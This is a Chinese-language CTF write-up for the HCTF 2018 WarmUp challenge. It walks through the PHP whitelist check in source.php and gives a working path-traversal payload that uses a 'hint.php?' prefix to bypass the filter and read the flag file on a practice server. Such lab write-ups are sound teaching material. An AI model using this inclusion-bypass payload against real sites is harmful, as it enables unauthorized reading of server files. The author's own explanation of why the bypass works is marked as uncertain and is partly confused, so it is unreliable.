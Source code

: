 ```yaml
---
title: HCTF 2018 WarmUp
categories:
- wp
feature_text: |
  [HCTF 2018]WarmUp

---
```






<!-- more -->

F12发现一个php文件被注释掉了

通过http://f047c895-2bc2-4d31-838f-a8f12e9bea1b.node4.buuoj.cn:81/source.php查看源代码:

![image-20211016175531793]({{ site.url }}/assets/prtsc/image-20211016175531793.png)

开始查函数：

- isset：检测目标变量的值是否为NULL，如果是NULL返回False
- is_string：检测目标变量是否为字符串，如果是，返回True
- echo：相当于输出
- in_array(search,array,type)：搜索数组中是否存在指定的值，存在输出True（如果 *search* 参数是字符串且 *type* 参数被设置为 TRUE，则搜索区分大小写。）
- mb_substr( string $str , int $start [, int $length = NULL [, string $encoding = mb_internal_encoding() ]] ) : string      :划重点划重点了

![image-20211016180918301]({{ site.url }}/assets/prtsc/image-20211016180918301.png)

- mb_strpos(haystack,needle)  :返回要needle在haystack字符串中首次出现的位置

- $_REQUEST:获取以POST方法和GET方法提交的数据

分析代码

cehckFile这个函数进行了 3次白名单检测、 2次问号过滤、一次URL解码

    class emmm
        {
            public static function checkFile(&$page)
        {
            //白名单列表
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            //isset()判断变量是否声明is_string()判断变量是否是字符串 &&用了逻辑与两个值都为真才执行if里面的值
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it A";
                return false;
            }
            //检测传进来的值是否匹配白名单列表$whitelist 如果有则执行真
            if (in_array($page, $whitelist)) {
                return true;
            }
            //过滤问号的函数(如果$page的值有？则从?之前提取字符串)
            
            //由此开始******************************************
            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')//返回$page.?里面?号出现的第一个位置
            );
    
             //第二次检测传进来的值是否匹配白名单列表$whitelist 如果有则执行真
            if (in_array($_page, $whitelist)) {
                return true;
            }
            //url对$page解码
            $_page = urldecode($page);
    
            //第二次过滤问号的函数(如果$page的值有？则从?之前提取字符串)
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            //第三次检测传进来的值是否匹配白名单列表$whitelist 如果有则执行真
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

```
payload：
http://f047c895-2bc2-4d31-838f-a8f12e9bea1b.node4.buuoj.cn:81/index.php?file=hint.php?../../../../../ffffllllaaaagggg
```

理解：

找到flag的关键是找到 ”ffffllllaaaagggg“ 这个文件，分析代码得知其进行了白名单和？的过滤。想要执行ffffllllaaaagggg这个文件，就要先得到index.php的权限（自我理解，有待考证），网址的载入是从后往前的（？），所以从后往前的第一个”？“被第一次问号过滤过滤掉。然后白名单过滤再将hint.php过滤掉，所以真正执行的网址其实是http://f047c895-2bc2-4d31-838f-a8f12e9bea1b.node4.buuoj.cn:81/index.php?file=../../../../../ffffllllaaaagggg

从而拿到flag

注：关于为什么只需要跳过一次问号过滤和一次白名单过滤是因为从 $_page = mb_substr(，才开始真正的过滤输入的网址






